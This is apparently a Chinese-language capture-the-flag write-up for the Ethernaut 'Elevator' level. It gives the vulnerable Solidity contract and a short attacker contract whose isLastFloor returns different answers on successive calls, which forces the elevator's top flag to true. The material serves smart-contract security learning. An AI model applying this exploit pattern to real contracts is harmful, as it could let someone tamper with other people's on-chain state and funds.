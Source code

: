 # Elevator
> 登上理塘最高峰！

[link](https://ethernaut.openzeppelin.com/level/0x4A151908Da311601D967a6fB9f8cFa5A3E88a251)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

这道题的目标是为了修改top为true，那么显而易见的，我们需要构造一个根据状态变化的`isLastFloor`函数

```solidity
contract BuildingInstance is Building {
    Elevator public addr;

    constructor(address addr_) {
        addr = Elevator(addr_);
    }
    function isLastFloor(uint val) external view returns (bool) {
        if (val > addr.floor()) {
            return false;
        } else {
            return true;
        }
    }

    function attack(uint val) external {
        addr.goTo(val);
    }

}
```
